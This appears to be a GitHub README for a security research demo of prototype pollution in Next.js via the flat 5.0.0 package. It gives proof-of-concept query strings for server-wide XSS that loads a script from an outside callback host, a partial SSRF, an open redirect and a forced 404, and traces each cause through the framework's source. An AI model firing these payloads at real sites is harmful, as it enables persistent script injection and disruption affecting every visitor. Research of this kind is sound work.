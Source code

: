 # Next.js Flat Prototype Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat:5.0.0](https://www.npmjs.com/package/flat) is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Gadgets

> Lot of unexplored surface. If you find anything send a pull request :)

| Name                              | Description                                        | Type               | Package                         | Completed |
| --------------------------------- | -------------------------------------------------- | ------------------ | ------------------------------- | :-------: |
| [AMP first look](#amp-first-look) | via `ampUrlPrefix` in `ampOptimizer.transformHtml` | XSS + Partial SSRF | `@ampproject/toolbox-optimizer` |     ✔     |
| [Redirect SSR](#redirect-ssr)     | via `redirect.destination` in `getServerSideProps` | Open Redirect      | `next`                          |     ✔     |
| [404 SSR](#404-ssr)               | via `notFound` in `getServerSideProps`             | Permanant 404      | `next`                          |     ✔     |
| More AMP                          |                                                    |                    |                                 |           |
| React Server Components           |                                                    |                    |                                 |           |
| Image & Font Optimization         |                                                    |                    |                                 |           |
| API & Middlewares                 |                                                    |                    |                                 |           |
| Router                            |                                                    |                    |                                 |           |
| Prisma                            |                                                    |                    |                                 |           |

## AMP first look

Cross-Site Scripting via `ampUrlPrefix` in `ampOptimizer.transformHtml` (Session-wide like broadcast due to server-side rendering).

Also a partial SSRF via `node-fetch` during AMP transform.

**Poc**

```sh
# XSS on a AMP enabled Page
/vulnerable?__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# XSS on a Non-AMP Page (but AMP should be enabled in atleast one other page on the site)
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# Partial SSRF - works if route `/*` does not return 404 else server hangs
/vulnerable?__proto__.ampUrlPrefix=https://URL/

```

**Cause**

Requires 2 stages to poision the server-side code with our payload because AMP check happens before the pollution in `getServerSideProps`. So we pollute in the first request and trigger in another which does a new AMP check and optimize.
Once it's poisioned any single subsequent request will trigger XSS on any session as the server-side code is poisioned via prototype pollution.

```js
// next/server/render.tsx
const ampState = {
  ampFirst: pageConfig.amp === true,
  hasQuery: Boolean(query.amp),
  hybrid: pageConfig.amp === "hybrid",
};
const inAmpMode = !process.browser && (0, _amp).isInAmpMode(ampState); // isInAmpMode() { return ampFirst || hybrid && hasQuery }
// ...
html = await optimizeAmp(html, renderOpts.ampOptimizerConfig);

// next/server/optimize-amp.ts
const optimizer = AmpOptimizer.create(config);
return optimizer.transformHtml(html, config); // config.ampUrlPrefix = 'https://xss-callback.pwnfunction.repl.co/'

// @ampproject/toolbox-optimizer/index.js
async transformHtml(t, e) {
    const r = await i.parse(t);
    await this.transformTree(r, e);
    return i.serialize(r);
}

// `transformTree` eventually leads to the following
5690: (t, e, r) => {
    // ...
    class RewriteAmpUrls {
        // ...
        transform(t, e) {
            // ...
            d.push(this._createPreload(l.attribs.src, "script")); // l.attribs.src = 'https://xss-callback.pwnfunction.repl.co/'
            // ...
        }
        // ...
    }
    t.exports = RewriteAmpUrls;
},

// <script async="" src="https://xss-callback.pwnfunction.repl.co/v0.js"></script>
```

> Note: In `next.config.js`, we skip validation `skipValidation: true`.
> This is to disable `SeparateKeyframes` (`fn 1053`) - `@ampproject/toolbox-optimizer/index.js` throws `filter on undefined` due to prototype pollution. (Lazy fix)

## Redirect SSR

**Poc**

```url
/vulnerable?__proto__.redirect.destination=https://pwnfunction.com
```

**Cause**

```js
// next/server/render.tsx
if ("redirect" in data && typeof data.redirect === "object") {
  checkRedirectValues(data.redirect, req, "getServerSideProps");
  data.props = {
    __N_REDIRECT: data.redirect.destination,
    __N_REDIRECT_STATUS: (0, _loadCustomRoutes).getRedirectStatus(
      data.redirect
    ),
  };
  if (typeof data.redirect.basePath !== "undefined") {
    data.props.__N_REDIRECT_BASE_PATH = data.redirect.basePath;
  }
  renderOpts.isRedirect = true;
}
```

## 404 SSR

**Poc**

```url
/vulnerable?__proto__.notFound=1
```

**Cause**

```js
// next/server/render.tsx
if ('notFound' in data && data.notFound) {
    if (pathname === '/404') {
        throw new Error(
            `The /404 page can not return notFound in "getStaticProps", please remove it to continue!`
        )
    }

    ;(renderOpts as any).isNotFound = true
    return null
}
```
